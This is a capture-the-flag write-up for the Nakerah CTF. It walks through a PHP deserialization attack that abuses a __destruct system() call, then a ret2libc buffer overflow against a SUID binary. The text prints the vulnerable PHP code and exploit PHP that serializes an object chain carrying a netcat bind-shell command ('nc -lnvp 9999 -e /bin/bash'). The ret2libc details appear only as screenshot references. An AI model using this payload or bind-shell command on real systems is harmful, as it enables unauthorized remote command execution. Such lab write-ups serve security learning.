<div align="center"><h1>Nakerah CTF </h1></div>
Peace, mercy and blessings of God 

today we are going to solve an interesting CTF from  [Nakerah!](https://www.nakerah.net)
>our goal is to read root's flag  
expolit will be devided into two missions first deserilization attack then ret2libc

so with all that being said; let's right jump in !!

# First mission

first we have that static page 

[logo]: img/1.png
![alt text](img/1.png "static page")

looking around source code nothing interested there 

[logo]: img/2.png
![alt text](img/2.png "source code")

so let's nmap it

[logo]: img/3.png
![alt text](img/3.png "nmap result")

as we see we have some other ports 
* 22 ssh we dont have any creds and it seems to be updated
* 25 smtp is filtered so we maybe come back to it later
* 80 http we already checked it

so lets visit port 8080 and see what behind the scene

[logo]: img/4.png
![alt text](img/4.png "port 8080")

just another blank page (: i get bored so let's gobuster it :XD

 [logo]: img/5.png
![alt text](img/5.png "gobuster")

 we have /backup file seems to be interesting let's dump it
 
 [logo]: img/6.png
![alt text](img/6.png "source code")

 after downloading the file it's php code 
 [logo]: img/7.png
![alt text](img/7.png "backup file")

 # analysis of code
 ```php
 class exCommand{
        public function __destruct(){
            system($this->command);
        }
    }
 ```
* here it creates an exCommand class and use a magic method `destruct` then pass the value of command propert to `system` function
Destruct is php magic method automatically called and allows you to perform some operations before destroying an object which will be our attack vector

```php
class Hello{
        private $name;
        private $role;
        private $isSet;
        public function check(){
           $this->isSet=isset($_COOKIE['name']);
        }
        
        }
    }
```

* here creating class Hello with some private properties and check function to verify if there's a cookie name  

```php
public function printHello(){
            if($this->isSet){
                echo "<br >" . $_COOKIE['name']."<br /><br /><br />";
                echo "Hello " . $this->name . "<br>";
                echo "your role is " . $this->role . "\n";
                echo "<br ><br ><br >";
            }else{
                echo "good";
            }
```

* another function `printHello` fisrt verify if there's a property isSet it will print our cookie, say hello to our cookie name and print our role but if not it will just print good

```php
$obj = unserialize($_COOKIE['name']);
$obj->check();
$obj->printHello();
```

* at last here it create an var, assign it's value to our deserialized cookie passing it to check and `printHello` functions

```console 
so  stay focus here 
it's `deserilization attack` and we need to pass our command to exCommand function which has that magic method
we have two problems 
first with exCommand class we used a property command without identifying it so in our exploit 
we will have to pass it to an object and  give it a vlaue
second problem  we have to bypass that cookie checks so let's write our exploit code
the trick here is if we bypass check function it will just print some staff 
if we try to target our exCommand class it will fail with check function so ...
```

so we will create `exCommand object`, identify command property with a value (our command) put it inside  `Hello calss` and selialize all that staff together

[logo]: img/ex.png
![alt text](img/ex.png "exploit code")

# code analysis:

```php
class exCommand{
   public function __destruct()}
   system($this->command);
   }
   }
 ```
 
* here we just create the same exCommand class,

```php
$x = new exCommand;
$x->command = "nc -lnvp 9999 -e /bin/bash";
create our object and give the command property our target command (bind shell)$y = new Hello;
class Hello{
        public $name;
        public $role;
        public $isSet;
        public $dummy;
}
```

* create class hello with some properites (dummy one is interesring just continue ..!)

```php
$y->name = "fady";
$y->role = "hacker";
$y->isSet = 1;
$y->dummy = $x;
print serialize($y);
```

* creating an oject of Hello class assining some values to properties and what interesting here it that `dummy propety` we gave it a value of  our `exCommand object` and finally serialize all that staff 

here is our final serialized data

[logo]: img/8.png
![alt text](img/8.png "serialized data")

and let's try connect

[logo]: img/9.png
![alt text](img/9.png "sending payload")

* and voila we get our shell 

[logo]: img/sh.png
![alt text](img/sh.png "spawingin a shell")

<div align="center"><h1>fisrt mission completed successfully</h1></div>

---
---

# Second mission

in the root dir we got README file

[logo]: img/11.png
![alt text](img/11.png "static page")

>NX which stand for non-executable so here we know it's BOF expolit with ret2libc

after some enum we got that interesting suid file

[logo]: img/12.png
![alt text](img/12.png "static page")

so after getting it in our local machine to understand it better 

[logo]: img/13.png
![alt text](img/13.png "static page")

we can identify that NX is enabled trying to run it gives seg fault after trying passing some args it just exit

[logo]: img/14.png
![alt text](img/14.png "static page")

so let's create our buffer with msf-patter-create and fire up gdb to get the exact offset

[logo]: img/15.png
![alt text](img/15.png "static page")

to get things more easily let's check ASLR in the vectim machine

[logo]: img/16.png
![alt text](img/16.png "static page")

and happy news  will make our life easier so hence we will work in our target machine to get some address

[logo]: img/17.png
![alt text](img/17.png "static page")

we got addresses of system and exit now we need address of /bin/sh

[logo]: img/18.png
![alt text](img/18.png "static page")

to get the exact address of /bin/sh in the run time we add its address to the starting of libc address

[logo]: img/19.png
![alt text](img/19.png "static page")

now our exploit is complete lets have a lock at it

[logo]: img/20.png
![alt text](img/20.png "static page")

now let's give it a try

[logo]: img/21.png
![alt text](img/21.png "static page")

```console
and finally i want to say to Nakerah team “You're the best.” 

and oxf1f1 “You knocked me off my feet!”
```

 
